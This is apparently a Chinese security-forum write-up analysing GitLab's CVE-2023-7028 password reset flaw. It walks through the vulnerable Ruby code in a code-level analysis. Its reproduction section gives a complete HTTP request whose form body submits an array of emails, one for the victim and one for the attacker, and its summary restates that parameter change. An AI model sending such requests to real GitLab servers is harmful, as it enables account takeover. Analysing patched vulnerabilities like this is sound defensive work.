 

# 奇安信攻防社区-GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

### GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

# 写在前面

GitLab 是一个开源的仓库管理系统，使用 Git 作为代码管理工具，并在此基础上搭建起来的 web 服务。它类似于 GitHub，能够浏览源代码，管理缺陷和注释。  
当 gitlab 启用邮箱登录时，攻击者如果掌握一个准确的邮箱账户的条件下，可以利用 CVE-2023-7028 漏洞重置该账户的密码。

# 代码分析

通过[补丁链接](https://gitlab.com/gitlab-org/gitlab/-/commit/44deb06e2c8e1c1b9424fc89dec4f60c8806711a)可以定位到邮箱重置密码的漏洞点：`app/models/concerns/recoverable_by_any_email.rb`

以下是关键代码：

**（重点代码已标记注释）**

```ruby
module RecoverableByAnyEmail
  extend ActiveSupport::Concern
  class_methods do
    # 这个方法重写了 Devise 的 send_reset_password_instructions 方法
    def send_reset_password_instructions(attributes = {})
      # 从传入的哈希中删除 :email 键并将其对应的值赋给 email 变量
      email = attributes.delete(:email)
      super unless email # 除非 email 变量为非 nil 或非 false，否则继续执行后续逻辑
      recoverable = by_email_with_errors(email)
      # 如果找到了用户，就向该用户发送密码重置指令
      recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?
      recoverable
    end

    private
    def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
  end

  # 这个实例方法用于发送密码重置指令
  def send_reset_password_instructions(opts = {})
    token = set_reset_password_token
    send_reset_password_instructions_notification(token, opts)
    token
  end

  private
  def send_reset_password_instructions_notification(token, opts = {})
    send_devise_notification(:reset_password_instructions, token, opts)
  end
end
```

`attributes.delete(:email)` 将从 `attributes` 哈希中删除键为 `:email` 的键值对，并返回该键对应的值。然后，这个返回的值被赋值给变量 `email`。

举个例子，假设 `attributes` 哈希是这样的：

```ruby
attributes = {email: 'test@example.com'}
```

执行 `email = attributes.delete(:email)` 后，`email` 变量的值将会是 `'test@example.com'`

如果说我们传入的`attributes`如下：

```ruby
attributes = {"email" => ["admin@gmail.com", "attacker@gmail.com"]}
```

那么执行 `email = attributes.delete("email")` 将会返回一个数组

`["admin@gmail.com", "attacker@gmail.com"]`。这个数组将会被赋值给 `email` 变量。

然后执行`recoverable = by_email_with_errors(email)`，验证该邮箱是否存在对应的用户。

```ruby
def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
```

然后执行`recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?`向 email 变量中的`所有邮箱`发送重置密码邮件。

# 漏洞复现

1.  网站首页如下图：

![image-20240116154129077](assets/1705890903-ce74419a33fd847ef17b8c9aa97755cc.png)

2.  点击忘记密码，进入密码重置页面，输入目标用户邮箱，然后抓包修改 **(红框部分是修改后的)**

```php
POST /users/password HTTP/1.1
Host: 172.23.80.161:3000
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: preferred_language=en; 16.7.0-hide-alert-modal=true; super_sidebar_collapsed=false; visitor_id=cead9e96-58e0-4537-93a9-1c201fe6a496; known_sign_in=OWpJMDR5eGNPVkFadi9YR3BFQUNjY3lNMk1od1BDTGtpZWU5RitKN0ozcENXVG13a3Q4M05SeWpDZU55bVkzaE9mNUFicy9iaEpGMC9YaWFqSW4xMllzMHFyNC9KRGZqaTA4RFhZcUxEWklPcm05UkwyK09hejg1SThPcjBOT3otLVJwRDNPdTVWelhuWmdpRmlrSXl3SUE9PQ%3D%3D--16245baa4982bcf678585093115d129b736babfc; _gitlab_session=3c585a48c6eb7abb73ddb73941173e34
Origin: http://172.23.80.161:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: http://172.23.80.161:3000/users/password/new
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 139

authenticity_token=0t85NavC_Or-tRPBS8R4XX5I8N0z-3_D7j2624iIXer-MxdH5_wBKxxI6xLXse2MWDfgiaUC9LTF1W_mfA5mYQ&user%5Bemail%5D%5B%5D=admin@gmail.com&user%5Bemail%5D%5B%5D=evil@gmail.com
```

![image-20240116152920289](assets/1705890903-d1511fc445aa9501b6c60810fb7455a4.png)

![image-20240116153936713](assets/1705890903-31e879dbdb1083f4809c5ca679106fa9.png)

# 总结

-   在开启邮箱登陆和配置 SMTP 后，只需要知道目标账号的邮箱，即可重置密码。
-   在重置密码的页面抓包，修改`user[email]=admin@gmail.com`为`user[email][]=admin@gmail.com&user[email][]=evil@gmail.com`，传入数组类型的`user[email][]`，即可向攻击者邮箱也发送重置密码链接。
